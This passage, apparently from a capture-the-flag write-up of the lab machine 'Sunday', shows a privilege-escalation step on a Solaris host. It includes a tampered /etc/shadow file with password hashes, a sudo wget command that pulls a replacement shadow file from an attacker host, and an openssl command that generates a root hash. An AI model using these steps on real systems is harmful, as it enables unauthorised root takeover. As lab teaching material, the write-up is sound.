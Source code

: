 

    root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    mysql:NP:::::::
    openldap:*LK*:::::::
    webservd:*LK*:::::::
    postgres:NP:::::::
    svctag:*LK*:6445::::::
    nobody:*LK*:6445::::::
    noaccess:*LK*:6445::::::
    nobody4:*LK*:6445::::::
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::



In this case, I've made the root entry the same as sunny, other than the
username.

Then get it with wget, and then su and give it password "sunday":



    sammy@sunday:~$ sudo wget -O /etc/shadow http://10.10.14.5/shadow
    --02:00:10--  http://10.10.14.5/shadow
               => `/etc/shadow'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 392 [application/octet-stream]

    100%[==========================================================================================================================================================================================================>] 392           --.--K/s

    02:00:10 (42.45 MB/s) - `/etc/shadow' saved [392/392]

    sammy@sunday:~$ su -
    Password:
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    You have new mail.
    root@sunday:~# id
    uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)



If I had wanted to give root a different password, and not just copy
from sunny or sammy, I could use openssl:



    root@kali# openssl passwd -1 -salt 0xdf password
    $1$0xdf$fKKvgEPPSu1HMdNI3w5i50



Then put that into shadow:



    root@kali# head -1 shadow
    root:$1$0xdf$fKKvgEPPSu1HMdNI3w5i50:17636::::::
